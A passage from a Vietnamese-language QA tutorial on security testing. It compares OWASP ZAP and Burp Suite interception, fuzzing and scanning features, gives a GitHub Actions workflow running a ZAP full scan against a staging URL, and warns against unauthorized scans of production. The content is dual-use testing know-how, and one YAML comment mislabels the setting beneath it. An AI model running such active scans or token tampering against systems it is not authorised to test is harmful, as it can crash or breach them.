| **Cơ chế Chặn & Sửa gói tin** | Tính năng *Breakpoints* giúp giữ lại gói tin để chỉnh sửa tham số thủ công trên đường truyền. | Tính năng *Proxy Intercept* kết hợp bộ công cụ *Repeater* và *Intruder* tối ưu cho việc Fuzzing dữ liệu. | QA dùng Repeater để thay đổi nhanh các Token hoặc ID trong payload nhằm tìm lỗi leo thang đặc quyền mà không cần thao tác lại ngoài giao diện UI. | **Mất kết nối Proxy (SSL Handshake Failed):** Trình duyệt chặn không cho lướt web do chứng chỉ HTTPS của Proxy không đáng tin cậy. <br>*Cách sửa:* Bắt buộc xuất chứng chỉ CA của công cụ và import vào mục Trust Store của trình duyệt/hệ điều hành. |
| **Quét Tự động hóa & Khai phá** | Tính năng *Spider* và *AJAX Spider* giúp tự động bò qua toàn bộ liên kết của website để lập bản đồ bề mặt tấn công. | Tính năng *Burp Scanner* tự động quét lỗ hổng theo lịch trình bằng AI, tối ưu hóa các điểm neo đầu vào. | QA sử dụng tính năng Spider để tìm ra các tệp tin ẩn, các API ẩn bị bỏ quên trên hệ thống Staging của doanh nghiệp. | **Gây sập môi trường thử nghiệm (Server Crash):** Lệnh Active Scan gửi hàng vạn request tấn công cùng lúc làm nghẽn DB và sập Server. <br>*Cách sửa:* Giới hạn số luồng (Thread Limit) và hạ tần suất gửi gói tin xuống mức an toàn. |

---

## 💡 Ví dụ thực tế liên hoàn: Tích hợp OWASP ZAP Automation vào Đường ống GitHub Actions

Dưới đây là kịch bản thực tế một Kỹ sư QA tích hợp bước quét bảo mật tự động hộp đen (DAST - Dynamic Application Security Testing) sử dụng Docker của OWASP ZAP chạy ngay trong luồng CI/CD:

### 📁 Mã nguồn Tệp `.github/workflows/security-dast-scan.yml`
```yaml
name: Automated Security DAST Port
on:
  push:
    branches: [ main ]

jobs:
  security-audit:
    runs-on: ubuntu-latest
    steps:
    - name: Tải mã nguồn dự án về máy ảo Runner
      uses: actions/checkout@v4

    - name: Thực thi quét bảo mật thụ động và chủ động toàn diện
      # Sử dụng Action chính thức do cộng đồng OWASP phát triển
      uses: zaproxy/action-full-scan@v0.12.0
      with:
        # URL của môi trường Staging cần rà quét lỗi bảo mật
        target: 'https://example.com'
        # Xuất bản báo cáo lỗi dưới dạng tệp tin HTML trực quan
        rules_file_name: 'zap-rules.conf'
        fail_action: true
```
*Phân tích luồng xử lý kỹ thuật:* Khi đường ống kích hoạt, OWASP ZAP sẽ tự động chạy luồng Spider để bò khắp website `://example.com`, sau đó chèn payload quét chủ động. Nếu phát hiện ra bất kỳ lỗi nào thuộc nhóm Nguy hiểm tối cao (High Risk Defect - như SQLi, XSS), tham số `fail_action: true` sẽ lập tức đóng băng toàn bộ luồng phát hành sản phẩm và gửi thông báo HTML Report để QA lập tức xử lý Bug.

---

> ⚠️ **NGUYÊN LÝ BẤT BIẾN:** Tuyệt đối không bao giờ được phép kích hoạt tính năng quét chủ động (Active Scanning/Fuzzing) của OWASP ZAP hoặc Burp Suite hướng thẳng vào các địa chỉ IP hoặc tên miền thuộc môi trường vận hành thực tế (Production Environment) của doanh nghiệp hoặc của bất kỳ tổ chức nào khi chưa có văn bản phê duyệt đặc cách bằng văn bản từ Ban Giám Đốc. Hành vi này được luật pháp định nghĩa là một cuộc tấn công mạng phá hoại tài sản công nghệ thông tin và có thể dẫn đến các chế tài kỷ luật và pháp lý nghiêm trọng.

---

📚 **References**
* *ISTQB® Certified Tester Advanced Level (CTAL) Technical Test Analyst Syllabus* - Section 4.5: *Security Testing Tools*.
* *OWASP ZAP Official Core Architecture Reference Manual.* - *Passive Scanning vs Active Scanning Mechanics*.
* *PortSwigger Burp Suite Support Academy.* - *Using Burp Suite for Web Application Penetration Testing*.
